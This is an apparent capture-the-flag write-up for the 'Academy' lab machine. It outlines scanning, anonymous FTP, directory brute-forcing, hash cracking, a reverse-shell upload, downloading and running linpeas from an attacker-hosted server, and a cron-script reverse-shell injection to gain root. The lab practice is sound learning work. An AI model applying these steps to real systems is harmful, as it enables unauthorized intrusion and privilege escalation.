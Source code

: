 # 🏫 Academy CTF

link to download the box: [https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH](https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH)

Credentials to retrieve the IP of the machine:

Username: root

Password: tcm

### Introduction:

The objective is to gain root access to the target system. The writeup will be less graphic and detailed in order for you to try to bypass possible problems and look for in depth resources.

### Step 1: Nmap Scan

Commencing the engagement with a meticulous Nmap scan provides insights into the target system's network topology, open ports, and active services.

```bash
nmap -sC -sV <target_ip>
```

### Step 2: FTP Port and Anonymous Login

Identifying an accessible FTP port, we leverage anonymous login credentials to retrieve a notable file, note.txt.

```bash
ftp <target_ip>
ls
get note.txt
```

### Step 3: Gobuster Discovery

Utilizing Gobuster facilitates the discovery of hidden directories on the web server, revealing /academy and /phpmyadmin.

```bash
gobuster dir -u http://<target_ip> -w <wordlist>
```

### Step 4: Cracking Hashed Password

Analysis of note.txt discloses student credentials and a hashed password, subsequently decrypted to reveal "student."

### Step 5: Web Application Exploitation

Logging in as the student reveals a myprofile page with an upload photo feature. We exploit this functionality by uploading a reverse shell, pre-configuring a local listener.

### Step 6: Privilege Escalation with Linpeas

To identify potential privilege escalation opportunities, Linpeas is downloaded locally and served via a Python web server. Subsequently, it is fetched on the target machine.

```bash
cd /tmp
wget http://<local_machine_ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Step 7: Identifying Privesc Opportunity

Linpeas reveals a noteworthy cron job: `/home/grimmie/backup.sh`. Furthermore, a MySQL password is extracted from the script.

### Step 8: SSH Access as Admin User

Access to the system is escalated by successfully SSHing into the admin account "grimmie" using the identified credentials.

```bash
ssh grimmie@<target_ip>
```

### Step 9: Investigating Cron Job

The backup.sh script is examined, uncovering references to a process snooping tool named psypy. The tool is then downloaded, transferred to the target machine, and executed for process monitoring.

### Step 10: Exploiting Cron Job

Identification of a cron job running every minute prompts the injection of a reverse shell payload into the backup.sh script, enabling remote access.

### Step 11: Obtaining Root Access

Post-exploitation, a flag.txt file is discovered, culminating in the successful rooting of the target system.

```bash
cat flag.txt
```

### Conclusion:

Congrat's on rooting this machine, see you in the next one

Happy hacking!
